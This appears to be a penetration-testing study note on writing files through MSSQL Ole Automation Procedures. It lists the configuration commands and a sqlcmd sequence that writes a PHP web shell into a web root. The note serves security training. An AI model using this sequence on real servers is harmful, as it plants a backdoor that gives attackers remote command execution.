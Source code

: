 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MSSQL
  - Concepts
---
```

See [[2. Enumeration/TCP/3306. MySQL (SQL)/Concepts/Write Local File|Write Local File]] from [[2. Enumeration/TCP/3306. MySQL (SQL)/1. Guide|MySQL]] for more information.
## Restrictions

To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:
#### Enable Ole Automation Procedures

```cmd-session
sp_configure 'show advanced options', 1
```
```cmd-session
RECONFIGURE
```
```cmd-session
sp_configure 'Ole Automation Procedures', 1
```
```cmd-session
RECONFIGURE
```


## Usage

Using [[SqlCmd]]:

```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
